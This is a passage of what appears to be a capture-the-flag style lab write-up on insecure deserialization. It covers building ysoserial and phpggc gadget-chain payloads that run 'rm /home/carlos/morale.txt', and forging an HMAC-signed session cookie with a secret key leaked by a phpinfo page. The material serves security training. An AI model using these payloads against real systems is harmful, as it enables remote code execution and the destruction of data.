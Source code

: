 Copy the returned value and URL encode it before sending as a cookie value along with any request to solve the lab.

USE THIS WAY:
```
    1. In Windows Powershell: PS D:\Tools\ysoserial> java -jar ysoserial-all.jar CommonsCollections4 'rm /home/carlos/morale.txt' > payload.txt
    2. Move payload.txt to Kali
    3. In Kali: cat payload.txt | base64 -w 0
    4. Copy the output and place it in the session cookie (URL encode it)
```

### LAB: Exploiting PHP deserialization with a pre-built gadget chain
Download the `phpggc` tool for generating PHP gadget chain payloads:

    git clone https://github.com/ambionics/phpggc.git
    cd phpggc
    chmod +x phpggc.php

Or use `phpggc` directly via Kali.

First login to the given account and try modifying the cookie to something arbitrary $\to$ got the error:

    Internal Server Error: Symfony Version: 4.3.6

From this we know that we can use `Symfony/RCE4` to generate the payload. Generate gadget chain payload using `phpggc` (Base64 encode it and remove the new line characters):

    phpggc Symfony/RCE4 exec 'rm /home/carlos/morale.txt' | base64 -w 0

Now investigate the cookie value, it contains a token that is Base64 encoded and a HMAC-SHA1 signature of that token:

    {"token":"Tzo0OiJVc2VyIjoyOntzOjg6InVzZXJuYW1lIjtzOjY6IndpZW5lciI7czoxMjoiYWNjZXNzX3Rva2VuIjtzOjMyOiJ2dGxzeWRvNGExeDBxbm56Z2V6OXdsdTY2YTl1cWpqZSI7fQ==","sig_hmac_sha1":"31b2f4a2e885d90408d979f0c1a58760d6794b67"}

Base64 decode the token:

    {"token":"O:4:"User":2:{s:8:"username";s:6:"wiener";s:12:"access_token";s:32:"vtlsydo4a1x0qnnzgez9wlu66a9uqjje";}","sig_hmac_sha1":"31b2f4a2e885d90408d979f0c1a58760d6794b67"}

Now in order to successfully inject the gadget chain payload we need to find the key to sign it. Fortunately, there is a comment in the source code showing us where to find it:

    <!-- <a href=/cgi-bin/phpinfo.php>Debug</a> -->

Visit that page and look for the `SECRET_KEY` value. Now paste all the needed value in to the [PHP code](./HMAC-SHA1-sign.php) to generate a valid cookie. Use that along with any request to solve the lab.

### LAB: Exploiting Ruby deserialization using a documented gadget chain
This lab uses Ruby on Rails framework. Go read this [article](https://devcraft.io/2021/01/07/universal-deserialisation-gadget-for-ruby-2-x-3-x.html) to know more about how this gadget chain payload is created:
